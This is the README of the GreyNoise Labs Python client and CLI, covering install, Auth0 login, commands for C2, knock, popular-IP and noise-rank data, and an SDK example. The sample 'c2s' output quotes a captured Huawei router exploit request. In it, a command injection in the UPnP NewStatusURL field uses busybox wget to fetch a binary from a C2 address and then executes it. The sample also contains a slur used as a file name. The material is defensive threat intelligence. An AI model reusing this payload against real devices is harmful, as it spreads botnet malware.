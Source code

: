 ==========================================
Python GreyNoise Labs GraphQL Client & SDK
==========================================

.. image:: https://img.shields.io/badge/License-MIT-yellow.svg
    :target: https://opensource.org/licenses/MIT

This is an abstract python client and SDK library generated from the `GreyNoise Labs API`_ service.

.. _GreyNoise Labs API: https://api.labs.greynoise.io/

Documentation
=============
Documentation is available here: `Documentation <https://api.labs.greynoise.io/1/docs/>_.

CLI Install
===========
1. Run ``python3 -m pip install greynoiselabs``
2. Run ``greynoiselabs init`` to authenticate with Auth0 and save credentials for future use.
3. (Optional) It is recommended to install `jq` to make the CLI output more readable. 
   You can install it with ``brew install jq`` on macOS or ``apt-get install jq`` on Ubuntu.
```
You are not authenticated, would you like to do this now? [y/N]: y
Device code successful
1. Please browse to:  https://greynoise2.auth0.com/activate?user_code=ABCD-EFGH
2. Verify the code matches:  ABCD-EFGH
Please click the link above and follow the instructions...
Please click the link above and follow the instructions...
Please click the link above and follow the instructions...
Token saved to /Users/user/Library/Application Support/greynoiselabs/0.1.19/token.json.
Authentication successful
Aborted.
```

CLI Quick Start
===============
1. To show usage just run ``greynoiselabs`` and you should see this output.
```
Usage: greynoiselabs [OPTIONS] COMMAND [ARGS]...

╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --install-completion          Install completion for the current shell.                                                      │
│ --show-completion             Show completion for the current shell, to copy it or customize the installation.               │
│ --help                        Show this message and exit.                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Commands ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ c2s          Return the top 1% of C2s ranked by pervasiveness. This data may be up to 4.5 hours old but covers the previous  │
│              24 hours.                                                                                                       │
│ gengnql      Translate text into usable GreyNoise GNQL queries.                                                              │
│ init         Initialize the client by authenticating with Auth0 and saving the token to a file.                              │
│ knocks       Return the top 1% of Knock results by most recently seen. A Knock represents an IP observed by GreyNoise that   │
│              we have scanned back. This data may be up to 12 hours old. This endpoint supports filtering by a single IP.     │
│ noise-rank   Return the top 1% of ranked IPs by noise score over the previous 7 days of traffic. This also returns the       │
│              pervasiveness and diversity scores. This endpoint supports filtering by a single IP.                            │
│ popular-ips  Return the top 1% of IPs searched in GreyNoise. These results are ordered by the number of users observed over  │
│              the last 7 days. This data may be up to 24 hours old. This also returns the user and request counts. This also  │
│              returns a boolean if this IP was observed by GreyNoise sensors.                                                 │
│ version      Return the version of the GreyNoise Labs CLI.                                                                   │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```
2. Run ``greynoiselabs knocks --help`` to show command specific help like below.
```
Usage: greynoiselabs knocks [OPTIONS] [IP]                                                                             
                                                                                                                        
 Return the top 1% of Knock results by most recently seen. A Knock represents an IP observed by GreyNoise that we have  
 scanned back. This data may be up to 12 hours old. This endpoint supports filtering by a single IP.                    
                                                                                                                        
╭─ Arguments ──────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│   ip      [IP]  Specify the IP to retrieve.                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ --output  -o      TEXT  JSON lines output file location.                                                             │
│ --config  -c      TEXT  Output directory for CLI config.                                                             │
│                         [default: /Users/matt/Library/Application Support/greynoiselabs/0.1.19]                      │
│ --help                  Show this message and exit.                                                                  │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```
3. Run ``greynoiselabs c2s | jq``
Example Result:
```
{
  "source_ip": "1.2.3.4",
  "hits": 2024,
  "pervasiveness": 10,
  "c2_ips": [
    "5.6.7.8"
  ],
  "c2_domains": [],
  "payload": "POST /ctrlt/DeviceUpgrade_1 HTTP/1.1\r\nContent-Length: 430\r\nConnection: keep-alive\r\nAccept: */*\r\nAuthorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"\r\n\r\n<?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(/bin/busybox wget -g 5.6.7.8 -l /tmp/negro -r /.oKA31/bok.mips; /bin/busybox chmod 777 /tmp/negro; /tmp/negro hw.selfrep)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>\r\n\r\n"
}
```
4. Run ``greynoiselabs knocks | jq``
```
{
  "source_ip": "36.70.32.117",
  "headers": "{\"Content-Type\":[\"text/html\"],\"Expires\":[\"0\"],\"Server\":[\"uc-httpd 1.0.0\"]}",
  "apps": "[{\"app_name\":\"Apache HTTP Server\",\"version\":\"\"}]",
  "emails": [],
  "favicon_mmh3_128": "Sgqu+Vngs9hrQOzD8luitA==",
  "favicon_mmh3_32": -533084183,
  "ips": [
    "10.2.4.88",
    "10.2.2.88"
  ],
  "knock_port": 80,
  "jarm": "00000000000000000000000000000000000000000000000000000000000000",
  "last_seen": "2023-07-21T11:00:06Z",
  "last_crawled": "2023-07-22T00:14:27Z",
  "links": [],
  "title": "NETSurveillance WEB",
  "tor_exit": false
}
```

5. Run ``greynoiselabs popular-ips | jq``
```
{
  "ip": "143.244.50.173",
  "request_count": 916,
  "users_count": 95,
  "last_requested": "2023-07-27T23:55:17Z",
  "noise": true,
  "last_seen": "2023-07-27T23:59:11Z"
}
```
6. Run ``greynoiselabs noise-rank | jq``
```
{
  "ip": "167.94.138.35",
  "noise_score": 89,
  "country_pervasiveness": "very high",
  "payload_diversity": "med",
  "port_diversity": "very high",
  "request_rate": "high",
  "sensor_pervasiveness": "very high"
}
```
7. Run ``greynoiselabs gengnql "Show malicious results that are targeting ukraine from russia"``
Results will differ for `gengnql` on subsequent runs as this is using an GPT prompt.
```
classification:malicious AND metadata.country:Russia AND destination_country:Ukraine
metadata.country:Russia AND destination_country:Ukraine AND classification:malicious
metadata.country_code:RU AND destination_country_code:UA AND classification:malicious
classification:malicious AND metadata.country_code:RU AND destination_country_code:UA
destination_country:Ukraine AND metadata.country:Russia AND classification:malicious
```

CLI Advanced Usage
==================
Show the most popular IPs that are searched at GreyNoise but not observed by our sensors
1. ``greynoiselabs popular-ips | jq '. | select(.noise == false)' | less``

Group the ip's hitting GreyNoise sensors by their HTTP page title
2. ``greynoiselabs knocks | jq -s 'group_by(.title) | map({title: .[0].title, agg: map(.source_ip) })'``

SDK Quick Start
===============
**Install the library**:

``python3 -m pip install greynoiselabs`` or ``make install`` when in the root directory of the repository.

Example SDK Code

You can authenticate to the Labs API and obtain a copy of your token there 
or with the CLI after running `greynoiselabs init`

..  code-block:: python

    import os
    import asyncio
    from greynoiselabs.client import Client

    client = Client("https://api.labs.greynoise.io/1/query",
                    {"Authorization": f"Bearer {os.environ['AUTH_TOKEN']}"})

    response = asyncio.run(client.top_knocks(ip="221.144.229.187"))
    print(response)
